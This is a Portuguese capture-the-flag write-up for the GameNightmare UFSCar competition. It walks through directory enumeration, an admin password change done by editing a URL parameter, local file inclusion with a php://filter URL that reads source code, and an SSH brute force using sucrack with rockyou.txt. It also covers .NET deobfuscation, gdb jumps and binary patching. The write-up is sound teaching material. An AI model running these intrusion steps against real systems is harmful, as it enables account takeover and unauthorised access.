 # GameNightmare UFSCar

## Web

### Recon (50)
```
O primeiro passo de um pentest é sempre enumerar o alvo. Quando falamos de um pentest web também procuramos arquivos esquecidos pelo administrador

http://64.137.228.30
```
Pegando o IP dado, podemos usar por exemplo a ferramenta `dirsearch` para obter os subdiretórios nele e arquivos php "perdidos":
```
sudo dirsearch http://64.137.228.30 -e .php
```
Encontramos o diretório `/_temp/`, que possui um arquivo y0ur_fl4g.txt que é contém a flag do desafio. <br>
flag: `POMBO{R3m3mb4_t0_3numerate}`

No outro arquivo nessa mesma pasta encontramos uma pista para o próximo chall.
```
Atenção pessoal do Q.A.
Façam seus testes com o usuário:

user: aluno
pass: aluno


Att, Gleise.
```
### fuck the admin (130)
```
Ok, you got credentials, but show me that you can CHANGE THE ADMIN PASSWORD and login :)

same address bitch.
```
Tentando trocar a senha do usuário aluno, que obtivemos no desafio Recon, recebemos a mensagem:
```
Do you cannot change 'aluno' password, it's a test account!
```
Percebemos que, ao trocar a senha, caímos no endereço [http://64.137.228.30/change_password.php?user=aluno&pass=aluno](http://64.137.228.30/change_password.php?user=aluno&pass=aluno). O que é uma dica forte que temos que mudar o parâmetro user e o pass de algum modo. <br>
Tentando substituir o user por admin e a senha por uma senha qualquer, chegamos ao link:
```
http://64.137.228.30/change_password.php?user=admin&pass=senha123
```
E recebemos a mensagem:
```
password updated with success!
```
Logando na conta admin com a senha que estabelecemos, temos a resposta do desafio: <br>
flag: `POMBO{My_Nam3_is_Gleise}`

Além disso, no link da página, temos `http://64.137.228.30/logged_in/admin.php?file=349ab674ce607874f5445576471825a3.php`. Repare que o file= é um forte indício de Local File Inclusion (LFI), que usaremos no próximo chall.

### Read the code (200)
```
show me that you know what to to with this vuln, noob
```
Utilizando um php filter para o LFI, podemos encontrar os códigos php nas páginas, por exemplo <br>
`
http://64.137.228.30/logged_in/admin.php?file=php://filter/convert.base64-encode/resource=/var/www/html/logged_in/index.php
`
<br>
Que retorna o código em "index.php" "criptografado" com base 64.
<br>
Então, pesquisando em diversas páginas do site, encontramos `data.php`, que possui o seguinte código.
```
<?php
  session_start();
  require '../database_control/init.php';
  popOut();

	/*

		POMBO{Im_Reading_Your_Code}

		não esquecer de atualizar os dados no sistema!

		user: gleise@64.137.229.36
		password: minhasenhaesegura


	*/
?>
<!DOCTYPE html>
.
.
.
```
De onde obtemos a dica para o próximo chall e a flag. <br>
flag: `POMBO{Im_Reading_Your_Code}`

### Pivoting (300)
```
can you get the flag in the ssh of admin account?
```
Vemos, ao logar na ssh, o arquivo `rockyou.txt`, que é uma wordlist famosa, que vem junto a algumas distros de segurança. <br>
Isso é um forte indício que esse desafio é um bruteforce no usuário admin. <br>
Usando então a ferramenta "sucrack", que podemos baixar direto do terminal:
```
wget https://labs.portcullis.co.uk/download/sucrack-1.2.3.tar.gz
```
Depois de instalar com os seguintes comandos:
```
tar xfz sucrack-1.2.3.tar.gz
cd sucrack-1.2.3
./configure
make
cd src
```
Executamos com a wordlist, rodando em 100 workers na cpu
```
./sucrack -w 100 -u admin ../../rockyou.txt
```
### Priv Escalation (600)
- TODO

## Reverse Engineering

### EXErcite your skills (50)
É dado um arquivo .exe e dito que os usuários não usam linux.<br>
Caso usemos o comando `file Malware.exe`, percebemos que é um MS-DOS, .NET <br>.
Então, tentamos usar um decompilador para extrair o código, como o `dnSpy`, por exemplo. <br>
Porém, ao abrirmos o arquivo decompilado, vemos que está cheio de códigos estranhos e nomes de funções incomuns. <br>
Desconfiamos que o .exe foi obfuscado. Portanto, o desobfuscaremos, usando o `de4dot`.
Rodando ele, geramos o arquivo `Malware.clean.exe`. <br>
Abrindo ele, na main encontramos a flag em texto.
<newline>
![Rev50](Rev50Win.png)
<newline>
flag: `HZVI{M4lw4re_C4n_b3_h0st3d_1n_y0ur_reg1str1es}`


### not_my_name (50)
Caso usemos o radare ou o IDAPro para visualizar o grafo de fluxo do arquivo dado, percebemos várias funções com os nomes da música
Abra o arquivo usando o gdb por exemplo

```
run
```
Então,  coloque um breakpoint em algum lugar que será executado, por exemplo na função main
```
b * main
```
E então, através do que percebemos pelo grafo, usamos
```
j jeff
```
E recebemos um [link](https://vimeo.com/271687045) de um vídeo. <br>
Na descrição do chall é dito que "quando acharmos que resolveu, a senha é o nome do chall", então usamos `not_my_name` para abrir o vídeo.
A flag encontra-se na descrição. <br>
flag: `SCMPv9{my_n4m3_1s_jeff}`

### Dead Presidents (150)
Existem diversos modos de resolver esse challenge:

#### Binary manipulation
Ao abrir um decompiler, como por exemplo o IDA, percebemos que a flag gerada depende exclusivamente do nome do presidente. <br>
Caso usemos o comando `strings` no arquivo, percebemos o nome "Bill Clinton", mencionado no enunciado. <br>
Ao tentar usar o nome Bill Clinton, recebemos uma mensagem de "nome já utilizado". <br>
Então, ao abrir o binário dado, com um editor de texto qualquer, como por exemplo o vim, procuramos por "Bill" e editamos para um nome qualquer.
Tentamos novamente, usamos o presidente `Bill Clinton` como nome e obtemos a resposta.
flag: `INSA{8c0165004d4ab5d6}`

#### Reverse Hashing
- TODO
